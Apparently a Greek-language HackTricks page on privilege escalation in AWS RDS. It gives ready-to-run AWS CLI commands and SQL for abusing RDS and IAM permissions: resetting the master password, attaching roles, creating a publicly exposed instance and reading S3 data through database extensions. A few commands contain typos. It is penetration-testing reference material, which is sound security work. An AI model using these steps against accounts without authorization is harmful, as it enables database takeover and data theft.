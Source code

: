 # AWS - RDS Privesc

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## RDS - Relational Database Service

Για περισσότερες πληροφορίες σχετικά με το RDS ελέγξτε:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Με αυτή την άδεια ένας επιτιθέμενος μπορεί να **τροποποιήσει τον κωδικό πρόσβασης του κύριου χρήστη**, και να συνδεθεί μέσα στη βάση δεδομένων:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Θα χρειαστεί να μπορείτε να **επικοινωνήσετε με τη βάση δεδομένων** (συνήθως είναι προσβάσιμες μόνο από εσωτερικά δίκτυα).
{% endhint %}

**Πιθανός Αντίκτυπος:** Εύρεση ευαίσθητων πληροφοριών μέσα στις βάσεις δεδομένων.

### rds-db:connect

Σύμφωνα με τα [**έγγραφα**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) ένας χρήστης με αυτή την άδεια θα μπορούσε να συνδεθεί με το DB instance.

### Κατάχρηση RDS Role IAM permissions

#### Postgresql (Aurora)

{% hint style="success" %}
Αν εκτελώντας **`SELECT datname FROM pg_database;`** βρείτε μια βάση δεδομένων που ονομάζεται **`rdsadmin`** ξέρετε ότι βρίσκεστε μέσα σε μια **AWS postgresql database**.
{% endhint %}

Πρώτα μπορείτε να ελέγξετε αν αυτή η βάση δεδομένων έχει χρησιμοποιηθεί για πρόσβαση σε οποιαδήποτε άλλη υπηρεσία AWS. Μπορείτε να το ελέγξετε κοιτάζοντας τις εγκατεστημένες επεκτάσεις:
```sql
SELECT * FROM pg_extension;
```
Αν βρείτε κάτι σαν **`aws_s3`** μπορείτε να υποθέσετε ότι αυτή η βάση δεδομένων έχει **κάποιο είδος πρόσβασης στο S3** (υπάρχουν και άλλες επεκτάσεις όπως **`aws_ml`** και **`aws_lambda`**).

Επίσης, αν έχετε δικαιώματα να εκτελέσετε **`aws rds describe-db-clusters`** μπορείτε να δείτε αν ο **cluster έχει κάποιο IAM Role συνδεδεμένο** στο πεδίο **`AssociatedRoles`**. Αν υπάρχει, μπορείτε να υποθέσετε ότι η βάση δεδομένων ήταν **προετοιμασμένη για πρόσβαση σε άλλες υπηρεσίες AWS**. Βασισμένοι στο **όνομα του ρόλου** (ή αν μπορείτε να πάρετε τα **δικαιώματα** του ρόλου) θα μπορούσατε να **μαντέψετε** τι επιπλέον πρόσβαση έχει η βάση δεδομένων.

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε έναν bucket** πρέπει να γνωρίζετε το πλήρες μονοπάτι. Μπορείτε να το διαβάσετε με:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Αν είχατε **raw AWS credentials** θα μπορούσατε επίσης να τα χρησιμοποιήσετε για να αποκτήσετε πρόσβαση σε δεδομένα S3 με:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Το Postgresql **δεν χρειάζεται να αλλάξει καμία μεταβλητή της ομάδας παραμέτρων** για να έχει πρόσβαση στο S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Μέσα σε ένα mysql, αν εκτελέσετε το ερώτημα **`SELECT User, Host FROM mysql.user;`** και υπάρχει ένας χρήστης με το όνομα **`rdsadmin`**, μπορείτε να υποθέσετε ότι βρίσκεστε μέσα σε μια **AWS RDS mysql db**.
{% endhint %}

Μέσα στο mysql εκτελέστε **`show variables;`** και αν οι μεταβλητές όπως **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, έχουν τιμές, μπορείτε να υποθέσετε ότι η βάση δεδομένων είναι προετοιμασμένη για πρόσβαση σε δεδομένα S3.

Επίσης, αν έχετε δικαιώματα να εκτελέσετε **`aws rds describe-db-clusters`** μπορείτε να ελέγξετε αν το cluster έχει κάποιο **συνδεδεμένο ρόλο**, που συνήθως σημαίνει πρόσβαση σε υπηρεσίες AWS.

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα bucket** πρέπει να γνωρίζετε το πλήρες μονοπάτι. Μπορείτε να το διαβάσετε με:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBCluster` και `iam:PassRole` μπορεί να **προσθέσει έναν καθορισμένο ρόλο σε μια υπάρχουσα RDS instance**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **έχει πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα μέσα στην instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Πιθανός Αντίκτυπος**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις των δεδομένων στην RDS instance.\
Σημειώστε ότι ορισμένες βάσεις δεδομένων απαιτούν πρόσθετες ρυθμίσεις, όπως η Mysql, η οποία χρειάζεται να καθορίσει το role ARN στις ομάδες παραμέτρων επίσης.

### `rds:CreateDBInstance`

Μόνο με αυτή την άδεια ένας επιτιθέμενος θα μπορούσε να δημιουργήσει μια **νέα instance μέσα σε ένα cluster** που ήδη υπάρχει και έχει ένα **IAM role** συνδεδεμένο. Δεν θα μπορέσει να αλλάξει τον κωδικό πρόσβασης του κύριου χρήστη, αλλά μπορεί να είναι σε θέση να εκθέσει τη νέα database instance στο διαδίκτυο:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `rds:CreateDBInstance` και `iam:PassRole` μπορεί να **δημιουργήσει μια νέα RDS instance με έναν καθορισμένο ρόλο συνδεδεμένο**. Ο επιτιθέμενος μπορεί στη συνέχεια να **πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα μέσα στην instance.

{% hint style="warning" %}
Ορισμένες απαιτήσεις του ρόλου/προφίλ instance για να συνδεθεί (από [**εδώ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Το προφίλ πρέπει να υπάρχει στον λογαριασμό σας.
* Το προφίλ πρέπει να έχει έναν IAM ρόλο που το Amazon EC2 έχει άδειες να αναλάβει.
* Το όνομα του προφίλ instance και το συνδεδεμένο όνομα IAM ρόλου πρέπει να ξεκινούν με το πρόθεμα `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Πιθανός Αντίκτυπος**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις των δεδομένων στην RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBInstance` και `iam:PassRole` μπορεί να **προσθέσει έναν καθορισμένο ρόλο σε μια υπάρχουσα RDS instance**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της instance.

{% hint style="warning" %}
Η DB instance πρέπει να είναι εκτός ενός cluster για αυτό
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Πιθανός Αντίκτυπος**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις των δεδομένων στην RDS instance.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}
